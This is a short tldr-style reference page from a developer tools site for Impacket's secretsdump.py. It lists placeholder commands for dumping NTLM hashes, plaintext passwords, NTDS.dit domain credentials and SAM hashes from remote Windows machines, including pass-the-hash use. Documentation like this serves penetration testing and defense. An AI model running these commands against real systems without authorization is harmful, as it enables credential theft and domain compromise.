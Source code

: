 ```yaml
---
title: 'Dump NTLM Hashes - Secretsdump.py Windows Credentials | Online Free DevTools by Hexmos'
name: secretsdump.py
path: '/freedevtools/tldr/common/secretsdump-py/'
canonical: 'https://hexmos-com/freedevtools/tldr/common/secretsdump-py/'
description: 'Dump NTLM hashes with secretsdump.py, extracting Windows credentials and Active Directory information. Free online tool, no registration required for credential recovery.'
category: common
keywords:
  - NTLM Hash Dumper
  - Windows Credential Extraction
  - Active Directory Dump
  - SAM Database Extraction
  - Pass-the-Hash Attack
  - Windows Password Recovery
  - Domain Credential Dump
  - Credential Dumping Impacket
  - secretsdump.py Usage
  - Windows Security Tool
features:
  - Extracts NTLM hashes from Windows systems remotely
  - Dumps plaintext passwords from domain controllers
  - Retrieves credentials from Active Directory's NTDS.dit file
  - Extracts hashes from local SAM databases
  - Supports pass-the-hash authentication
ogImage: 'https://hexmos.com/freedevtools/site-banner.png'
twitterImage: 'https://hexmos.com/freedevtools/site-banner.png'
---
```


# secretsdump.py

> Dump NTLM hashes, plaintext passwords, and domain credentials from remote Windows systems.
> Part of the Impacket suite.
> More information: <https://github.com/fortra/impacket>.

- Dump credentials from a Windows machine using a username and password:

`secretsdump.py {{domain}}/{{username}}:{{password}}@{{target}}`

- Dump hashes from a machine using pass-the-hash authentication:

`secretsdump.py -hashes {{LM_Hash}}:{{NT_Hash}} {{domain}}/{{username}}@{{target}}`

- Dump credentials from Active Directory's NTDS.dit file:

`secretsdump.py -just-dc {{domain}}/{{username}}:{{password}}@{{target}}`

- Extract credentials from a local SAM database using registry hives:

`secretsdump.py -sam {{path/to/SAM}} -system {{path/to/SYSTEM}}`

- Dump hashes from a machine without providing a password (if a valid authentication session exists, e.g. via Kerberos or NTLM SSO):

`secretsdump.py -no-pass {{domain}}/{{username}}@{{target}}`
